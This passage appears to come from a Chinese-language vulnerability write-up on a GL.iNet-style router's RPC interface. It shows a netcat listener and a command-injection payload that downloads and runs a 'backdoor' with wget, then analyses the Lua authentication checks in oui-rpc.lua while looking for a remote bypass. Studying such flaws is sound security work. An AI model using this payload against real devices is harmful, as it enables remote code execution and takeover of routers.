 * 本地监听：

  ```shell
  nc -l [port]
  ```

* 命令注入：

  ```shell
  ;wget backdoor;chmod +x backdoor;./backdoor;
  ```

  

## 5.后续

官方 poc 只能够在本地实现，blonet 师傅提到其实是可以远程利用的

再补充一点：*RPC*（Remote Procedure Call）是远程过程调用协议

在 /usr/share/gl-ngx/oui-rpc.lua 中，我们要跳过下面这部分代码：

* 首先考虑 rpc.is_no_auth(object, method)是否能返回 1，这样的话我们就不用管 access 了
* 其次是 access 的绕过

```lua
if not rpc.is_no_auth(object, method) then
    if not rpc.access("rpc", object .. "." .. method) then
        local resp = rpc.error_response(id, rpc.ERROR_CODE_ACCESS)
        ngx.say(cjson.encode(resp))
        return
    end
end
```

is_no_auth()函数建一个 UCI 游标 c，用于访问 UCI 配置文件，并检查对象和方法是否不需要身份验证

UCI（Unified Configuration Interface，统一配置接口）是 OpenWrt 系统中的一个配置管理系统，用于统一管理各种配置文件。它提供了一种结构化的方式来读取、修改和保存配置文件，使得配置管理更加方便和一致

oui-httpd 中并没有我们要利用的对象和方法，所以不会返回 true，这条路失败了

```lua
M.is_no_auth = function(object, method)
    local c = uci.cursor()

    if not no_auth_methods then
        no_auth_methods = {}

        c:foreach("oui-httpd", "no-auth-methods", function(s)
            local ms = {}

            for _, m in ipairs(s.method) do
                ms[m] = true
            end

            no_auth_methods[s.object] = ms
        end)
    end

    if no_auth_methods[object] and no_auth_methods[object][method] then
        return true
    end

    return false
end
```
